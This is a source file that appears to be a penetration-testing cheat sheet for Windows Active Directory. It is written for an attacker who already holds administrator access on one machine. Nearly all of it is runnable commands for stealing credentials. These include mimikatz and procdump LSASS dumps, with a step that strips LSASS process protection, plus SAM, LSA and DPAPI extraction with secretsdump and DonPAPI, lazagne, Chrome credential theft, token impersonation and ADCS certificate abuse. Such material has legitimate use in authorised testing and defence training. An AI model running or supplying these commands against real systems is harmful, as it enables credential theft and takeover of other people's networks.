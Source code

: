 # Administrator access on 1 machine  
  
  
## Extract credentials from LSASS  
		LSASS as a Protected Process  
			PPLdump64.exe <lsass.exe|lsass_pid> lsass.dmp  
			mimikatz "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "token::elevate"  "sekurlsa::logonpasswords" "!processprotect  /process:lsass.exe" "!-" #with mimidriver.sys   
		procdump.exe -accepteula -ma lsass.exe lsass.dmp  
			mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"  
		mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"  "exit"  
		load kiwi  
			creds_all  
		cme smb <ip_range> -u <user> -p <password> -M lsassy  
		🔥lsassy -d <domain> -u <user> -p <password> <ip>  
		  
## Extract credentials from SAM  
		cme smb <ip_range> -u <user> -p '<password>' --sam   
		hashdump  
		reg save HKLM\SAM <file>;  reg save HKLM\SECURITY <file>; reg save HKLM\SYSTEM <file>  
			secretsdump.py  -system SYSTEM -sam SAM LOCAL  
		shadow copies  
			diskshadow list shadows all  
				mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\  
		mimikatz "privilege::debug" "lsadump::sam" "exit"  
		🔥secretsdump.py <domain>/<user>:<password>@<ip>  
		reg.py <domain>/<user>:<password>@<ip> backup -o '\\<smb_ip>\share'  
			secretsdump.py -sam <sam_file> -system <system_file> LOCAL  
		  
## Extract credentials from LSA  
		cme smb <ip_range> -u <user> -p '<password>' --lsa  
		🔥secretsdump.py <domain>/<user>:<password>@<ip>  
		reg.py <domain>/<user>:<password>@<ip> backup -o '\\<smb_ip>\share'  
			secretsdump.py -security <security_file> -system <system_file> LOCAL  
		  
  
## dpapi extract  
		🔥DonPAPI.py <domain>/<user>:<password>@<target>  
		mimikatz.exe "sekurlsa::dpapi"  
		secretsdump.py <domain>/<user>:<passwor>@<ip>  
  
## search password files  
		findstr /si 'password' *.txt *.xml *.docx  
  
## search stored password   
		lazagne.exe all  
  
## chrome  
		%appdata%\Local\Google\Chrome\User Data\Default  
			SharpChromium.exe  
## token manipulation  
		.\incognito.exe list_tokens -u  
			.\incognito.exe execute -c "<domain>\<user>" powershell.exe  
		use incognito  
			impersonate_token <domain>\\<user>  
		Extract credentials with certificate authentication  (ADCS required)  
			masky - d <domain> -u <user>  (-p <password> || -k || -H <hash>) -ca <certificate authority> <ip>  
  
  
  
